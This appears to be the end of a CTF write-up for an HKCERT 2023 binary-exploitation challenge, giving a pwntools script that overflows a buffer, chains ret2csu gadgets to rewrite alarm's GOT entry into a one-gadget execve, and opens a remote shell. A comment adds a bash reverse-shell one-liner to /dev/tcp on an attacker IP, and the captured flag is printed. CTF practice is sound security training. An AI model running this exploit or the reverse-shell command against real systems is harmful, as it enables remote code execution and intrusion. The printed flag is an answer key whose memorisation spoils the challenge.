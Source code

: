 ```python

# =======================
# EXPLOIT AFTER THIS
# =======================
libc = ELF("./libc.so.6")
offset = 120

ALARM_GOT = 0x404018
VULN = 0x401205

###### Onegadget Execve
# 0xebc88 execve("/bin/sh", rsi, rdx)
# constraints:
# address rbp-0x78 is writable
# [rsi] == NULL || rsi == NULL
# [rdx] == NULL || rdx == NULL
EXECVE_OFFSET = 0xEBC88

SET_GOT = 0x40117C  # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
RBP = ALARM_GOT + 0x3D
RBX = (
    EXECVE_OFFSET - libc.symbols["alarm"]
)  # difference between ALARM and One Gadget Execve in libc
CSU_START = (
    0x4012A0  # mov %r14,%rdx; mov %r13,%rsi; mov %r12d,%edi; call *(%r15,%rbx,8)
)
CSU_END = 0x4012BA  # pop %rbx; pop %rbp; pop %r12; pop %r13; pop %r14; pop %r15; ret

r = connect()

payload_1 = b"A" * offset
payload_1 += p64(CSU_END)
payload_1 += p64(RBX) + p64(RBP) + b"B" * 32 + p64(SET_GOT)
payload_1 += p64(VULN)

r.sendline(payload_1)

payload_2 = b"A" * offset
payload_2 += p64(CSU_END)
payload_2 += (
    p64(0)
    + p64(elf.bss() + 0x200)
    + b"A" * 8
    + p64(0)
    + p64(0)
    + p64(ALARM_GOT)
    + p64(CSU_START)
)
r.sendline(payload_2)

r.interactive()

# after getting shell on remote server run the following
# bash -c 'sh -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1'
# to get reverse shell
```
## Flag
`hkcert23{n0_3y3_s3E}`
